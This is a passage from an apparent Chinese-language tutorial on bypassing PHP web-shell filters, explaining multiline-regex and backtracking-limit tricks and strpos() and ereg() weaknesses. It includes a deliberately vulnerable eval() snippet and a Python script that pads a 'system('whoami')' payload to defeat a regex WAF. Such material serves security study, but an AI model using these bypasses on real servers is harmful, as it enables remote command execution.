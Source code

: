 `/m` 是多行匹配，但是当出现换行符 `%0a` 的时候会被当做两行处理，而此时只可以匹配第 1 行，后面的行就会被忽略

#### 8.5.2 回溯绕过

PHP 正则利用的是 NFA（非确定性有限自动机），想了解这个的可以百度找相关文章

-   遇到 `.*` 或者 `.+` ==> 直接匹配字符串末尾，然后一个个回溯，与之后的模式比较
-   遇到 `.*?` 或者 `.+?` ==> 非贪婪模式，在匹配到符合的字符串就停止 ==> 由下一个模式匹配 ==> 下一个模式不符合，回溯 ==> 再由 `.*?` 匹配直到下一个模式符合

```plain
if (isset($_POST['f'])) {
    $f = $_POST['f'];
    if (preg_match('/<\?.*[(`;?>].*/is', $f)) {
        die('发现敏感字符串');
    }
    if (stripos($f, 'system(') == False) {
        die('不允许 system');
    }
    eval($_POST['f']);
    echo '恭喜你成功绕过';
}
```

注：PHP 为了防止正则表达式的拒绝服务攻击（reDOS），给 `pcre` 设定了一个回溯次数上限 `pcre.backtrack_limit`，可以通过以下代码查看当前环境下的上限：

```plain
var_dump(ini_get('pcre.backtrack_limit'));
```

回溯次数上限默认是 100 万，如果回溯次数超过了 100 万，`preg_match` 返回的便不再是 0 或 1，而是 `false`

可以写一个 Python 脚本来使回溯次数超出 `pcre.backtrack_limit` 限制从而绕过 WAF：

```plain
import requests

url = 'http://***.***.***/WebShell-Bypass-Guide/test.php'
data = {
    'f': 'system(\'whoami\');//'+'Aabyss'*166667
}
reponse = requests.post(url, data=data)
print(reponse.text)
```

### 8.6 `strpos()` 函数绕过

```plain
strpos ( string $haystack , mixed $needle , int $offset = 0 ) : int
```

**`stripos()` 用来查找字符串中某部分字符串首次出现的位置 (不区分大小写)**

`strpos()` 函数如果传入数组，便会返回 NULL

### 8.7 `ereg()` 函数绕过

```plain
int ereg(string pattern, string originalstring, [array regs]);
```
